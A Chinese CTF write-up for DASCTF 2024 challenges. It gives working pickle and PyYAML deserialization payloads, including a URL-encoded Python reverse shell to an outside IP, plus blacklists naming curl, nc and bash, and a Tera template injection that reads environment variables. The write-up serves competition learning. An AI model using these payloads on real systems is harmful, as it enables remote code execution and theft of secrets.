# DASCTF 2024最后一战｜寒夜破晓，冬至终章(部分wp)-先知社区

> **来源**: https://xz.aliyun.com/news/16303  
> **文章ID**: 16303

---

# web

## const\_python

```
import builtins
import io
import sys
import uuid
from flask import Flask, request,jsonify,session
import pickle
import base64


app = Flask(__name__)

app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "")


class User:
    def __init__(self, username, password, auth='ctfer'):
        self.username = username
        self.password = password
        self.auth = auth

password = str(uuid.uuid4()).replace("-", "")
Admin = User('admin', password,"admin")

@app.route('/')
def index():
    return "Welcome to my application"


@app.route('/login', methods=['GET', 'POST'])
def post_login():
    if request.method == 'POST':

        username = request.form['username']
        password = request.form['password']


        if username == 'admin' :
            if password == admin.password:
                session['username'] = "admin"
                return "Welcome Admin"
            else:
                return "Invalid Credentials"
        else:
            session['username'] = username


    return '''
        <form method="post">
        <!-- /src may help you>
            Username: <input type="text" name="username"><br>
            Password: <input type="password" name="password"><br>
            <input type="submit" value="Login">
        </form>
    '''


@app.route('/ppicklee', methods=['POST'])
def ppicklee():
    data = request.form['data']

    sys.modules['os'] = "not allowed"
    sys.modules['sys'] = "not allowed"
    try:

        pickle_data = base64.b64decode(data)
        for i in {"os", "system", "eval", 'setstate', "globals", 'exec', '__builtins__', 'template', 'render', '\\',
                 'compile', 'requests', 'exit',  'pickle',"class","mro","flask","sys","base","init","config","session"}:
            if i.encode() in pickle_data:
                return i+" waf !!!!!!!"

        pickle.loads(pickle_data)
        return "success pickle"
    except Exception as e:
        return "fail pickle"


@app.route('/admin', methods=['POST'])
def admin():
    username = session['username']
    if username != "admin":
        return jsonify({"message": 'You are not admin!'})
    return "Welcome Admin"


@app.route('/src')
def src():
    return  open("app.py", "r",encoding="utf-8").read()

if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=False, port=5000)

```

简单看一下会知道其他路由都没什么用只有/ppicklee有用，一开始我是打算使用subprocess来绕过的  
通过pker构造出了如下payload

```
b"cbuiltins\ngetattr\np0\n0cbuiltins\n__import__\np1\n0g1\n(S'subprocess'\ntRp2\n0g0\n(g2\nS'run'\ntRp3\n0g3\n((S'calc'\nltR."
```

但是不行，原因出在

```
sys.modules['os'] = "not allowed"
sys.modules['sys'] = "not allowed"

```

其将os和sys都搬了  
我在网上查了一下，其需要使用`del sys.modules['os']`来对其进行删除，然后再import导入，说实话有点麻烦了。  
因为题目告诉了我们flag再/flag下，且其src路由会读取文件app.py内容并输出，那么我们直接使用builtins的open来读取文件，然后再write写入到app.py里即可

还是使用pker

```
getattr = GLOBAL('builtins', 'getattr')

open = GLOBAL('builtins', 'open')
flag=open('/flag')
read=getattr(flag, 'read')
f=open('./app.py','w')
write=getattr(f, 'write')
fff=read()
write(fff)
return

```



···  
b"cbuiltins\ngetattr\np0\n0cbuiltins\nopen\np1\n0g1\n(S'/flag'\ntRp2\n0g0\n(g2\nS'read'\ntRp3\n0g1\n(S'./app.py'\nS'w'\ntRp4\n0g0\n(g4\nS'write'\ntRp5\n0g3\n(tRp6\n0g5\n(g6\ntR."  
···





补充:比赛的时候自己好像想麻烦了，并不用手搓。。。

## yaml\_matser

```
import os
import re
import yaml
from flask import Flask, request, jsonify, render_template


app = Flask(__name__, template_folder='templates')

UPLOAD_FOLDER = 'uploads'
os.makedirs(UPLOAD_FOLDER, exist_ok=True)
def waf(input_str):


    blacklist_terms = {'apply', 'subprocess','os','map', 'system', 'popen', 'eval', 'sleep', 'setstate',
                       'command','static','templates','session','&','globals','builtins'
                       'run', 'ntimeit', 'bash', 'zsh', 'sh', 'curl', 'nc', 'env', 'before_request', 'after_request',
                       'error_handler', 'add_url_rule','teardown_request','teardown_appcontext','\\u','\\x','+','base64','join'}

    input_str_lower = str(input_str).lower()


    for term in blacklist_terms:
        if term in input_str_lower:
            print(f"Found blacklisted term: {term}")
            return True
    return False


file_pattern = re.compile(r'.*\.yaml$')


def is_yaml_file(filename):
    return bool(file_pattern.match(filename))

@app.route('/')
def index():
    return '''
    Welcome to DASCTF X 0psu3
    <br>
    Here is the challenge <a href="/upload">Upload file</a>
    <br>
    Enjoy it <a href="/Yam1">Yam1</a>
    '''

@app.route('/upload', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        try:
            uploaded_file = request.files['file']

            if uploaded_file and is_yaml_file(uploaded_file.filename):
                file_path = os.path.join(UPLOAD_FOLDER, uploaded_file.filename)
                uploaded_file.save(file_path)

                return jsonify({"message": "uploaded successfully"}), 200
            else:
                return jsonify({"error": "Just YAML file"}), 400

        except Exception as e:
            return jsonify({"error": str(e)}), 500


    return render_template('upload.html')

@app.route('/Yam1', methods=['GET', 'POST'])
def Yam1():
    filename = request.args.get('filename','')
    if filename:
        with open(f'uploads/{filename}.yaml', 'rb') as f:
            file_content = f.read()
        if not waf(file_content):
            test = yaml.load(file_content)
            print(test)
    return 'welcome'


if __name__ == '__main__':
    app.run(host='0.0.0.0')

```

可以明显发现其是pyYaml反序列化这里贴一个大佬的博客SecMap - 反序列化（PyYAML）  
我们看代码可以发现其是直接yaml.load(file\_content)可以知道其Yaml的版本小于5.1,因为高版本的需要我们手动指定构造器  
看一下黑名单可以发现器没有禁exec

```
!!python/object/new:type
args:
  - exp
  - !!python/tuple []
  - {"extend": !!python/name:exec }
listitems: ""

```

我们看waf可以发现器禁了非常多，所以我想尝试使用编码绕过，而且我们可以发现再常见编码中url编码并没有被过滤  
直接url编码命令然后弹shell即可

```
__import__('os').system('python3 -c \'import os,pty,socket;s=socket.socket();s.connect(("111.xxx.xxx.159",7777));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")\'')

```

```
!!python/object/new:type
args:
  - exp
  - !!python/tuple []
  - {"extend": !!python/name:exec }
listitems: "import urllib; exec(urllib.parse.unquote('%5f%5f%69%6d%70%6f%72%74%5f%5f%28%27%6f%73%27%29%2e%73%79%73%74%65%6d%28%27%70%79%74%68%6f%6e%33%20%2d%63%20%5c%27%69%6d%70%6f%72%74%20%6f%73%2c%70%74%79%2c%73%6f%63%6b%65%74%3b%73%3d%73%6f%63%6b%65%74%2e%73%6f%63%6b%65%74%28%29%3b%73%2e%63%6f%6e%6e%65%63%74%28%28%22%31%31%31%2e%78%78%78%2e%78%78%78%2e%31%35%39%22%2c%37%37%37%37%29%29%3b%5b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%66%29%66%6f%72%20%66%20%69%6e%28%30%2c%31%2c%32%29%5d%3b%70%74%79%2e%73%70%61%77%6e%28%22%73%68%22%29%5c%27%27%29'))"

```



感觉我这两题都是用非预期写的

# CHECKIN

## 签到题

打开链接可以发现并不是`https://game.gcsis.cn`而是`https://game.wetolink.com/`。



看源码可以发现器10s后跳转到<https://game.gcsis.cn，扫一下https://game.wetolink.com/的目录>



看一下robots



# 西湖论剑邀请函获取器





根据提示可以知道其应该是一个rust的ssti。且flag在环境变量里。  
简单搜一下可以搜到Tera的ssti  
<https://brycec.me/posts/corctf_2023_challenges>



```
{{ get_env(name="SECRET") }}
```

```
{{ get_env(name="FLAG") }}
```


